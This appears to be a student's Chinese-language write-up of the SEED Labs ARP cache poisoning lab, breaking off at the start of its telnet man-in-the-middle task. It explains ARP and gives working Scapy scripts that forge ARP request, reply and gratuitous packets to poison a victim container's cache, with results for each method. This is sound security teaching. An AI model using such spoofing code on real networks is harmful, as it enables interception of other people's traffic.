# ARP Cache Poisoning Attack Lab

> 地址解析协议（ARP）是用于发现IP地址的数据链路层地址（例如MAC地址）的通信协议。 ARP协议是一个非常简单的协议，并且不会实施任何安全措施。 ARP缓存中毒攻击是对ARP方案的常见攻击。使用这样的攻击，攻击者可以欺骗受害者接受伪造的$IP \to MAC$的映射。这可能会导致受害者的数据包通过锻造的MAC地址将受害者的数据包重定向到计算机，从而导致潜在的中间攻击。

> 该实验室的目的是让学生获得有关ARP缓存中毒攻击的第一手经验，并了解这种攻击可能造成什么损害。特别是，学生将使用ARP攻击发动中间人攻击，攻击者可以在其中拦截和修改两个受害者A和B之间的数据包。该实验室的另一个目标是让学生练习包数据包嗅探。欺骗技能，因为这些是网络安全方面的重要技能，它们是许多网络攻击和防御工具的基础。学生将使用Scapy执行实验室任务。

> 该实验涵盖以下主题：
>
> - ARP协议
> - ARP缓存中毒攻击
> - 中间人攻击
> - SCAPY编程

>  **视频**： ARP协议和攻击的详细讲解部分如下：
>
> - Wenliang Du的《互联网安全：动手方法》第3节。 请参阅https://www.handsonsecurity.net/video.html的详细信息。
>
> **实验室环境**： 该实验室已在SeedUbuntu 20.04 VM上进行了测试。 您可以从种子网站下载预制图像，并在自己的计算机上运行种子VM。 但是，大多数种子实验室都可以在云上进行，您可以按照我们的指示在云上创建种子VM。

代码仓库：https://github.com/SKPrimin/HomeWork/tree/main/SEEDLabs/ARP_Attack

### ARP简介

ARP是一种解决地址问题的协议，以目标IP地址为线索。用来定位下一个应该接收数据分包的网络设备对应的MAC地址。如果目标主机不在同一个链路上时，可以通过ARP查找下一跳路由器的MAC地址。

ARP是借助ARP请求与ARP响应两种类型的包确定MAC地址的。

如图所示，假定主机A向同一链路上的主机B发送IP包，主机A的IP地址为172. 20.1.1,主机B的IP地址为172. 20. 1.2，它们互不知道对方的MAC地址。



主机A为了获得主机B的MAC地址，起初要通过广播发送一个ARP请求包。这个包中包含了想要了解其MAC地址的主机IP地址。也就是说，ARP请求包中已经包含了主机B的IP地址172.20.1.2。由于广播的包可以被同一个链路上所有的主机或路由器接收，因此ARP的请求包也就会被这同一个链路上所有的主机和路由器进行解析。如果ARP请求包中的目标IP地址与自己的IP地址一致，那么这个节点就将自已的MAC地址塞入ARP响应包返回给主机A。



Hard.Addr.Length：MAC地址长度=6（字节）

Prot.Addr.Type：IP地址长度=4（字节）

### ARP 缓存

如果每发送一个IP数据报都要进行一次 ARP请求以此确定MAC地址，那将会造成不必要的网络流量，因此，通常的做法是把获取到的MAC地址缓存一段时间。即把第一次通过ARP获取到的MAC地址作为IP对MAC的映射关系记忆到一个ARP缓存表中，下一次再向这个IP地址发送数据报时不需再重新发送ARP请求，而是直接使用这个缓存表当中的MAC地址进行数据报的发送。

每执行一次ARP，其对应的缓存内容都会被清除。不过在清除之前都可以不需要执行ARP就可以获取想要的MAC地址。这样，在一定程度上也防止了ARP包在网络上被大量广播的可能性。
一般来说，发送过一次IP数据报的主机，继续发送多次IP数据报的可能性会比较高。因此，这种缓存能够有效地减少ARP包的发送。反之，接收ARP请求的那个主机又可以从这个ARP请求包获取发送端主机的IP地址及其MAC地址。这时它也可以将这些MAC地址的信息缓存起来，从而根据MAC地址发送ARP响应包给发送端主机。类似地，接收到IP数据报的主机又往往会继续返回IP数据报给发送端主机，以作为响应。因此，在接收主机端缓存MAC地址也是一种提高效率的方法。

不过，MAC地址的缓存是有一定期限的。超过这个期限，缓存的内容将被清除。这使得MAC地址与IP地址对应关系即使发生了变化，也依然能够将数据包正确地发送给目标地址。

## 2设置实验环境

> 在这个实验室中，我们需要三台机器。 我们使用容器来设置实验室环境，该环境如图1所示。在此设置中，我们有一个攻击器机器（主机M），该机器用于针对其他两台机器，主机A和主机B。 三台机器必须在同一LAN上，因为ARP缓存中毒攻击仅限于LAN。 我们使用容器来设置实验室环境。


<center>图1：实验室环境设置</center>

### 2.1范围设置和命令

> 请从实验室的网站解压缩，下载[Labsetup.zip](https://seedsecuritylabs.org/Labs_20.04/Files/ARP_Attack/Labsetup.zip) (https://seedsecuritylabs.org/Labs_20.04/Files/ARP_Attack/Labsetup.zip), 将其解压，然后将复制转移到虚拟机中。文件，然后使用docker-compose.yml文件来设置实验室环境。 可以从用户手册中找到该文件中内容和所有涉及Dockerfile的详细说明，该用户手册链接到本实验室的网站。 如果这是您第一次使用容器设置种子实验室环境，那么阅读用户手册非常重要。
>
> 在下文中，我们列出了一些与Docker相关的常用命令并撰写。 由于我们将非常频繁地使用这些命令，因此我们在.bashrc文件中为它们创建了别名（在我们提供的Seepubuntu 20.04 VM中）。

```bash
$ docker-compose build # 构建容器镜像
$ docker-compose up    # 启动容器
$ docker-compose down  # 关闭容器

// 上面命令的别名
$ dcbuild		 # Alias for: docker-compose build
$ dcup 			 # Alias for: docker-compose up
$ dcdown 		 # Alias for: docker-compose down
```

我们构建并开启docker

```bash
docker-compose build

docker-compose up
```

效果如下，如果你第一次运行是要下载东西的



如果遇到这种报错`ERROR: error pulling image configuration: Get xxxx  read tcp : read: connection reset by peer`，且你使用的是VM Ware，请你将网络连接模式改为桥接模式。

也许你会报错`ERROR: Get https://registry-1.docker.io/v2/: net/http: TLS handshake timeout`，这有可能是你网速慢

> 所有容器将在后台运行。 要在容器上运行命令，我们通常需要在该容器上弹出外壳。 我们首先需要使用“ Docker PS”命令来找出容器的ID，然后使用“docker exec”在该容器上启动shell。 我们已经在.bashrc文件中为它们创建了别名。
>
> ```bash
> $ dockps 		// Alias for: docker ps --format "{{.ID}} {{.Names}}"
> $ docksh <id>   // Alias for: docker exec -it <id> /bin/bash
> 
> // 下面的示例显示了如何在主机内获取shell
> $ dockps
> b1004832e275	hostA-10.9.0.5
> 0af4ea7a3e2e 	hostB-10.9.0.6
> 9652715c8e0a 	hostC-10.9.0.7
> 
> $ docksh 96
> root@9652715c8e0a:/#
> // 注意：如果Docker命令需要一个容器ID，则无需键入整个ID字符串。 
> // 只要所有容器在所有容器中都是唯一的，那么键入前几个字符就足够了。
> ```
>
> 

连接docker

```bash
docker ps

docker exec -it ba /bin/bash
```


我们依次查出所有docker的Mac地址与IP地址

```bash
docker exec -it b5 /bin/bash
```


```bash
docker exec -it 31 /bin/bash
```



至此我们得到对照表

| 名称         | IP         | MAC               |
| ------------ | ---------- | ----------------- |
| A-10.9.0.5   | 10.9.0.5   | 02:42:0a:09:00:05 |
| B-10.9.0.6   | 10.9.0.6   | 02:42:0a:09:00:06 |
| M-10.9.0.105 | 10.9.0.105 | 02:42:0a:09:00:69 |

> 如果您在设置实验室环境时遇到问题，请阅读手册的“常见问题”部分以获取潜在解决方案。

### 2.2 关于攻击者容器

> 在本实验室中，我们可以将VM或攻击器容器用作攻击者机器。如果您查看Docker组成的文件，您将看到攻击者容器的配置与其他容器的配置不同。这是区别：
>
> - 共享文件夹。当我们使用攻击者容器启动攻击时，我们需要将攻击代码放入容器中。代码编辑在VM内部比在容器中更方便，因为我们可以使用我们喜欢的编辑器。为了使VM和容器共享文件，我们使用Docker卷在VM和容器之间创建了共享文件夹。如果您查看Docker组成的文件，您会发现我们已将以下条目添加到某些容器中。它指示将./volumes文件夹安装在主机计算机上（即VM）的 /VM上的 ./volumes文件夹。我们将在./volumes文件夹（在VM上）中编写代码，以便可以在容器内使用。我们从宿主 VM 放入 volumes中的任何内容都将显示在容器内的 /volumes中，反之亦然。
>
>   ```bash
>   volumes:
>   - ./volumes:/volumes
>   ```
>
> - 特权模式。为了能够在运行时（使用SYSCTL）修改内核参数，例如启用IP转发，需要具有特权容器。这是通过在Docker组合文件中包含以下条目来实现的。
>
>   ```bash
>   privileged: true
>   ```

### 2.3数据包嗅探

> 能够嗅探数据包在这个实验室中非常重要，因为如果事情没有按预期进行，那么能够查看数据包的去处可以帮助我们识别问题。有几种不同的方法可以嗅探数据包：
>
> - 在容器上运行TCPDUMP。我们已经在每个容器上安装了TCPDUMP。要嗅探通过特定接口的数据包，我们只需要找出接口名称，然后进行以下操作（假设接口名称为ETH0）：
>
>   ```bash
>   # tcpdump -i eth0 -n
>   ```
>
>   应该注意的是，由于docker创建的隔离，当我们在容器内运行tcpdump时，内部容器内只能嗅到该容器中和外出的数据包。我们将无法嗅探其他容器之间的数据包。但是，如果一个容器在其网络设置中使用host 模式，则可以嗅探其他容器的数据包。
>
> - 在VM上运行TCPDUMP。如果我们在VM上运行tcpdump，则不会对容器的限制，我们可以嗅到容器之间的所有数据包。 VM上网络的接口名称不同于容器上的接口名称。在容器上，每个接口名称通常以ETH开头。在VM上，Docker创建的网络的接口名称以BR-开头，然后是网络的ID。您始终可以使用IP地址命令在VM和容器上获取接口名称。
>
> - 我们还可以在VM上运行Wireshark到嗅探数据包。与TCPDUMP类似，我们需要选择要wireshark嗅探的接口。

打开Wireshark进行监听，发现选项有点多，我们选择监听三个dockers的网关。或者直接监听 `any`表示所有。



## 任务1：ARP缓存中毒

> 该任务的目的是使用欺骗数据包对目标发动ARP缓存中毒攻击，以便当两台受害者机器A和B尝试相互通信时，他们的数据包将被攻击者拦截，他们可以进行更改，他们可以进行更改 到数据包，因此可以成为A和A之间的中间人。这称为中间人（MITM）攻击。 在此任务中，我们专注于ARP缓存中毒部分。 以下代码骨架显示了如何使用SCAPY构建ARP数据包。

```python
#!/usr/bin/env python3
from scapy.all import *
E = Ether()
A = ARP()
A.op = 1 	# 1 for ARP request; 2 for ARP reply
pkt = E/A
sendp(pkt)
```

> 以上程序构建并发送ARP数据包。 请设置必要的属性名称/值以定义您自己的ARP数据包。 我们可以使用LS（ARP）和LS（Ether）查看ARP和Ether类的属性名称。 如果未设置字段，将使用默认值（请参阅输出的第三列）：

```python
$ python3
>>> from scapy.all import *
>>> ls(Ether)
dst        : DestMACField                        = (None)
src        : SourceMACField                      = (None)
type       : XShortEnumField                     = (36864)

>>> ls(ARP)
hwtype     : XShortField                         = (1)
ptype      : XShortEnumField                     = (2048)
hwlen      : FieldLenField                       = (None)
plen       : FieldLenField                       = (None)
op         : ShortEnumField                      = (1)
hwsrc      : MultipleTypeField                   = (None)
psrc       : MultipleTypeField                   = (None)
hwdst      : MultipleTypeField                   = (None)
pdst       : MultipleTypeField                   = (None)
```

> 在此任务中，我们有三台机器（容器），A、B和M。我们将M用作攻击者机器。 我们想使A在其ARP高速缓存中添加虚假条目，从而将B的IP地址映射到M的MAC地址。 我们可以使用以下命令检查计算机的ARP缓存。 如果要查看与特定接口关联的ARP缓存，则可以使用`-i`选项。

```bash
$ arp -n
Address 	HWtype 	HWaddress 			Flags Mask 	Iface
10.0.2.1 	ether 	52:54:00:12:35:00	C 			enp0s3
10.0.2.3 	ether 	08:00:27:48:f4:0b 	C			enp0s3
```



> 有很多方法可以进行ARP缓存中毒攻击。你可以尝试以下三种方法，并报告每种方法是否有效。

### 任务1.A（ARP请求）

> - 任务1.A（使用ARP请求）。在主机M上，构建一个ARP请求数据包以将B的IP地址映射到M的MAC地址。将数据包发送到A，并检查攻击是否成功。

既然要将B的IP地址映射到M的MAC地址，那就伪造一个包，这个包就是普普通通的由M发给A的包，区别在于原本应该是M的ip地址我们故意写成了B的ip。

```bash
#!/usr/bin/env python3
from scapy.all import *

# Who can it be used? Write first!
A_ip = "10.9.0.5"
A_mac = "02:42:0a:09:00:05"
B_ip = "10.9.0.6"
B_mac = "02:42:0a:09:00:06"
M_ip = "10.9.0.105"
M_mac = "02:42:0a:09:00:69"

E = Ether(src=M_mac, dst=A_mac)
A = ARP(hwsrc=M_mac, psrc=B_ip,
        hwdst=A_mac, pdst=A_ip)
A.op = 1 	# 1 for ARP request; 2 for ARP reply
pkt = E/A
sendp(pkt)
```

将文件复制到volumes共享文件夹下，docker连接上机器M，随后运行脚本发送arp数据报

```bash
docker exec -it b5 /bin/bash
cd volumes/
python3 t1a.py
```



wireshark抓包发现确有一个张冠李戴的arp数据报试图瞒天过海



连接到机器A上，查看arp，发现已然中毒。

```bash
docker exec -it ba /bin/bash
root@bab1b4aa6425:/# arp -n
```



### 任务1.B（ARP回复）

> - 任务1.B（使用ARP回复）。在主机M上，构建一个ARP回复数据包，以将B的IP地址映射到M的MAC地址。将数据包发送到A，并检查攻击是否成功。在以下两种情况下尝试攻击，并报告攻击结果：

我们在1a程序的基础上只需将A.op 改为 2 即可。

```bash
#!/usr/bin/env python3
from scapy.all import *

# Who can it be used? Write first!
A_ip = "10.9.0.5"
A_mac = "02:42:0a:09:00:05"
B_ip = "10.9.0.6"
B_mac = "02:42:0a:09:00:06"
M_ip = "10.9.0.105"
M_mac = "02:42:0a:09:00:69"

E = Ether(src=M_mac, dst=A_mac)
A = ARP(hwsrc=M_mac, psrc=B_ip,
        hwdst=A_mac, pdst=A_ip)
A.op = 2 	# 1 for ARP request; 2 for ARP reply
pkt = E/A
pkt.show()
sendp(pkt)
```

>   - 方案1：B的IP已经在A的缓存中。

为了让B的IP在A的缓存中，我们先在B上ping A。

```bash
$ docker exec -it 31 /bin/bash
root@3192b6590cae:/# ping 10.9.0.5
```



随后我们到A机器上查看`arp -n`，发现已将之前的信息覆盖掉，原本B的ip对应的mac已经改为最新的，也就是真正的mac地址。



在攻击机M上运行

```bash
python3 t1b.py
```


wireshark发现戏剧性的一幕



在A处查看arp表，发现修改成了最新回复



> - - 方案2：B的IP不在A的缓存中。您可以使用命令`arp -d a.b.c.d`删除IP地址` a.b.c.d`的ARP缓存条目。

在A处删除关于B的IP的缓存。

```bash
arp -d 10.9.0.6
arp -n
```



运行脚本后，wiresahrk捕获到了信息



但A的缓存始终未存放B的IP



在A处查看，没有信息



综上，只有一个单独的回复只能在原表基础上更新内容，并不能新建内容。

### 任务1.C（ARP无故消息）

> - 任务1.C（使用ARP无故消息）。在主机M上，构建一个ARP无故数据包，并将其用于将B的IP地址映射到M的MAC地址。请在与任务1.B中所述的两种情况下启动攻击。
>   ARP无故数据包是一个特殊的ARP请求包。当主机计算机需要更新其他机器ARP缓存的过时信息时，将会使用。无故的ARP包具有以下特征：
>   - 源IP和目标IP地址是相同的，它们是发出无用ARP的主机的IP地址。
>   - ARP标头和以太网标头中的目标MAC地址是广播MAC地址(`ff:ff:ff:ff:ff:ff`)。
>   - 没有回复。

编写程序，本次是假借B的名义发送无故ARP，用于向全网通知修改事宜。

```python
#!/usr/bin/python3
from scapy.all import *

# Who can it be used? Write first!
A_ip = "10.9.0.5"
A_mac = "02:42:0a:09:00:05"
B_ip = "10.9.0.6"
B_mac = "02:42:0a:09:00:06"
M_ip = "10.9.0.105"
M_mac = "02:42:0a:09:00:69"
ALL_mac = "ff:ff:ff:ff:ff:ff"

E = Ether(src=M_mac, dst=ALL_mac)
A = ARP(hwsrc=M_mac, psrc=B_ip,
        hwdst=ALL_mac, pdst=B_ip)
A.op = 1 	# 1 for ARP request; 2 for ARP reply
pkt = E/A
pkt.show()
sendp(pkt)
```

> - - 方案1：B的IP已经在A的缓存中。

老方式，先是让B ping A 写入缓存，A ping B也可。

```
ping 10.9.0.5
```



运行脚本发送无故ARP。



wireshark发现了该数据报



程序运行前后查看，发现A的缓存被欺骗了



> - - 方案2：B的IP不在A的缓存中。您可以使用命令`arp -d a.b.c.d`删除IP地址` a.b.c.d`的ARP缓存条目。

删除有关B的缓存

```bash
arp -d 10.9.0.6
```



再次发送arp无故数据包

```bash
python3 t1c.py
```



查看A的缓存表，发现并无变化，并没有写入信息



## 任务2：基于ARP缓存中毒对Telnet进行中间人攻击

> 主机A和B正在使用telnet进行通信，主机M希望拦截他们的通信，因此它可以更改A和B之间发送的数据。设置在图2中描绘了。我们已经创建了一个名为“ SEED”的帐户。 在容器内部，密码为“ dees”。 您可以将其伸入此帐户

### **步骤1**（启动攻击）

